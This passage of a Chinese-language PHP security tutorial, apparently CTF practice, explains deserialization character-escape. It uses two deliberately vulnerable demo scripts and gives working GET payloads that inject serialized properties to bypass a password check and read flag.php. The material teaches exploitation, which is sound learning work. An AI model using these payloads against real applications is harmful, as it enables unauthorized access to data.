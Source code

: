 吐出这些字符";s:2:"v3";s:3:"666";}，使结构完整

并且;}可以把反序列化结束掉，不再管后面的原功能性代码

增加的“;s:2:”v3“;s:3:”666“;}一共22位

一个ls转成pwd增加一位字符，所以需要22个ls转成pwd

```php
<?php
class A{
    public $v1 = 'ls';
    public $v2 = '123';

    public function __construct($arga,$argc){
        $this->v1 = $arga;
        $this->v2 = $argc;
    }
}
$a = $_GET['v1'];
$b = $_GET['v2'];
$data =  serialize(new A($a,$b));
$data = str_replace("ls","pwd",$data);
var_dump(unserialize($data));

输入?v1=lslslslslslslslslslslslslslslslslslslslslsls";s:2:"v3";s:3:"666";}后，输出

object(A)#1 (3) { ["v1"]=> string(66) "pwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwdpwd" ["v2"]=> string(3) "123" ["v3"]=> string(3) "666" }

```

**例题**

```php
<?php
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);//php替换为hack后字符增多，字符串增多，把有效代码往外吐
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}
$param=$_GET['param'];
$param=serialize(new test($param));
$profile=unserialize(filter($param));

if ($profile->pass=='escaping'){
    echo file_get_contents("flag.php");
}
//关键性判断pass=='escaping'
$user的值可控
//O:4:"test":2:{s:4:"user";s:3:"php";s:4:"pass";s:8:"escaping";}
s:4:"user";s:??:"hack...";s:4:"pass";s:8:"escaping";}";
需要吐出29个字符
payload:
?param=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}

将";s:4:"pass";s:8:"daydream";	}扔掉
```
